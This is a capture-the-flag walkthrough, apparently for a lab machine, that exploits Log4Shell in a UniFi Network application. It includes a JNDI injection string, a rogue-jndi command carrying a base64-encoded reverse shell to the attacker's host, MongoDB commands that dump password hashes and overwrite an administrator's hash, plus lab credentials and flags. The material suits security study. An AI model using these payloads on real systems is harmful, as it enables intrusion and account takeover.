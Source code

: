 ip: 10.129.26.54

# Flag
- root: e50bc93c75b634e4b272d2f771c33681
- user: 6ced1a6a89e666c0620cdb10262ba127

# Services
- OpenSSH v8.2p1
	- Port 22
- ibm-db2-admin
	- Port 6789
- http-proxy
	- Port 8080
	- Forwards to Unifi Network. Reverse Proxy?
- Unifi Network v6.4.54
	- Port 8443
- ssl/unkown
	- Port 8843
	- Seems to be an ssl wrapper for the service running on port 8880
- cddbp
	- Port 8880
	- Seems to be the http version of the service running on port 8843

# Credentials
- root: NotACrackablePassword4U2022
- tyler (unifi): Tywarren1
- administrator (unifi): Tywarren1

# Questions
1 - Which are the first four open ports?
	- 22, 6789, 8080, 8443
2 - What is title of the software that is running running on port 8443?
	- Unifi Network
3 - What is the version of the software that is running?
	- 6.4.54
4 - What is the CVE for the identified vulnerability?
	- CVE-2021-44228
5 - What protocol does JNDI leverage in the injection?
	- LDAP
6 - What tool do we use to intercept the traffic, indicating the attack was successful?
	- tcpdump
7 - What port is the MongoDB service running on?
	- 27117
8 - What is the default database name for UniFi applications?
	- ace
9 - What is the function we use to enumerate users within the database in MongoDB?
	- db.admin.find()
10 - What is the function we use to update users within the database in MongoDB?
	- db.admin.update
11 - What is the password for the root user?
	- NotACrackablePassword4U2022

# Scans
- Ran a scan of the top 200 ports and found services running on ports 22, 8080, and 8443
- Ran a scan of the full port range and found an additional service running on port 6789, 8843, and 8880
- Ran a service scan on ports 22, 6789, 8080, 8443, 8843, and 8880

# Unifi Network
- Navigated to `https://10.129.26.54:8443` and found the service is the Unifi Network application
- Noted the application is running version 6.4.54
- Looking up the version of Unifi Network it seems to be vulnerable to CVE-2021-44228 based on [this](https://community.ui.com/releases/UniFi-Network-Application-6-5-54/d717f241-48bb-4979-8b10-99db36ddabe1)
- Doing some more research on the CVE it looks to be a log4j vulnerability which an LDAP server can be combined with JNDI (Java Naming and Directory Interface) to execute arbitrary code. [source](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228)
- Found a good PoC for Log4Shell. [source](https://github.com/kozmer/log4j-shell-poc)
- It was discoverd that the exploit only works if you send the payload through the `remember` parameter. [source](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)
- Without the PoC running, if I send a jndi request `${jndi:ldap://10.10.14.74:1389/a}` I can see that the server makes a callback to our machine even though we don't have an ldap server running
- The log4j-shell-poc did not seem to work so trying a differnt one instead. [source](https://github.com/veracode-research/rogue-jndi)
- Using rogue-jndi with `java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNzQvMTMzNyAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.129.28.107"` and sending `${jndi:ldap://10.10.14.74:1389/o=tomcat}` in the remember parameter we were able to get a reverse shell
- The reverse shell reports the user is unifi (id 999)
- Found the user flag `6ced1a6a89e666c0620cdb10262ba127` at "/home/michael"
- By looking at the beginning of `/usr/lib/unifi/logs/mongod.log` it was discovered mongodb is running on port 27117
- Connected to local mongodb with `mongo --prot 27117`
- Listed the databases with `show dbs` and determined `ace` was probably the main database since it had the largest filesize
```
show dbs
ace       0.002GB
ace_stat  0.000GB
admin     0.000GB
config    0.000GB
local     0.000GB
```
- Found mongodb users and their password hashes with `db.admin.find()`
```
administrator: $6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.
michael: $6$spHwHYVF$mF/VQrMNGSau0IP7LjqQMfF5VjZBph6VUf4clW3SULqBjDNQwW.BlIqsafYbLWmKRhfWTiZLjhSP.D/M1h5yJ0
Seamus: $6$NT.hcX..$aFei35dMy7Ddn.O.UFybjrAaRR5UfzzChhIeCs0lp1mmXhVHol6feKv4hj8LaGe0dTiyvq1tmA.j9.kfDP.xC.
warren: $6$DDOzp/8g$VXE2i.FgQSRJvTu.8G4jtxhJ8gm22FuCoQbAhhyLFCMcwX95ybr4dCJR/Otas100PZA9fHWgTpWYzth5KcaCZ.
james: $6$ON/tM.23$cp3j11TkOCDVdy/DzOtpEbRC5mqbi1PPUM6N4ao3Bog8rO.ZGqn6Xysm3v0bKtyclltYmYvbXLhNybGyjvAey1
```
- Created a new password with `mkpasswd -m sha-512 Tywarren1`
- Updated adminstrator's password with `db.admin.update({"name": "administrator"}, {$set : {"x_shadow": "$6$/s/yBivRwcMXDX3Y$8D.T2p.c5pBU0ZFjI6pdstSjOkLqv.JJ89jzkVt8PgmfB8wzgz/U2JSRYNEY86.THZ9C6Vt/3CZaIrS38Mb1.1"}})`
- By resetting the password we can not login via the unifi web console
- Added a user `tyler` with the password `Tywarren1` in case another user changes the admin password
- Found the root password at `https://10.129.28.107:8443/manage/site/default/settings/site` under "Device Authentication". root password is `NotACrackablePassword4U2022`
- using ssh to login with these credentials we are presented with the root flag `e50bc93c75b634e4b272d2f771c33681`
